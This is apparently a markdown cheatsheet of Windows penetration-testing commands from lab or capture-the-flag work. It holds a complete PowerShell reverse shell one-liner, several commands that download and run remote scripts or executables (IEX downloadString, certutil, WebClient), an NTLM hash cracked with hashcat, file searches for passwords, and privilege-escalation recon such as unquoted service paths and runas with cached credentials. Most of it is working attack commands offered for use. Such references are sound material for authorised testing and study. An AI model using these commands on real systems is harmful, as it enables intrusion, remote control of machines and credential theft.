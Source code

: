 # WINDOWS HACKING CHEATSHEET

#### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

#### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

#### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

### Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

### Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

### Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

### Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

### Cracking Windows Password Hash
```
**Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
**USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::
hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt
```

### Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

### Show Drives
`wmic logicaldisk get caption,Description,providername`

### Find specific directory
`dir <Folder Name> /AD /s`

### Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

### Search long output
`command |more`

### Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

### Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

### Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

### Show User Privlages
`whoami /priv`

### Show a Users Group
`whoami /groups`

### List users in a group
`net localgroup administrtor`

### Show info on specified user
`net user administrator`

### Show Routing table
`route print`